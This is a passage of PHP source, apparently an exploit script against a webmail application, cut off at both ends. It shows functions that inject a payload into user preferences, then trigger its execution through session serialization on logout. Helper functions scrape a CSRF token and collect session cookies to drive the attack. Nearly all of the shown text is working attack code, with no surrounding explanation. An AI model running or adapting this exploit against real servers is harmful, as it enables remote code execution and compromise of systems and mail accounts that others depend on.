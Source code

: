 ```
        $targetUrl,
        urlencode($payloadName)
    );

    message('End payload: ' . $url);

    $response = @file_get_contents($url, false, $context);
    if (false === $response || strpos($response, 'preferences_time') === false) {
        throw new \Exception('Payload injection failed, got: ' . ($response ?: 'no response'));
    }

    message('Payload injected successfully');
}

/**
 * Triggers execution of the injected payload by serializing session data.
 *
 * @param string $targetUrl
 * @param string $cookie
 * @return void
 */
function executePayload(string $targetUrl, string $cookie): void
{
    message('Executing payload...');
    $token = getToken(
        file_get_contents(
            $targetUrl . '/',
            false,
            stream_context_create(['http' => ['header' => 'Cookie: ' . $cookie]])
        )
    );

    file_get_contents(
        sprintf('%s/?_task=logout&_token=%s', $targetUrl, $token),
        false,
        stream_context_create(['http' => ['header' => 'Cookie: ' . $cookie]])
    );
}

/**
 * Extracts and encodes the CSRF token from response body.
 *
 * @param string $body HTTP response body
 * @return string URL-encoded token
 * @throws RuntimeException If token is not found
 */
function getToken(string $body): string
{
    if (preg_match('/(?:"request_token":"|&_token=)([^"&]+)(?:"|\s)/Uuis', $body, $matches)) {
        return rawurlencode($matches[1]);
    }

    throw new \RuntimeException('CSRF token not found in response body');
}

/**
 * Aggregates Set-Cookie headers into a single cookie string.
 *
 * @param string $headers Raw HTTP headers
 * @param string $existing Any existing cookie string to preserve
 * @return string Concatenated cookies
 */
function getCookie(string $headers, string $existing = ''): string
```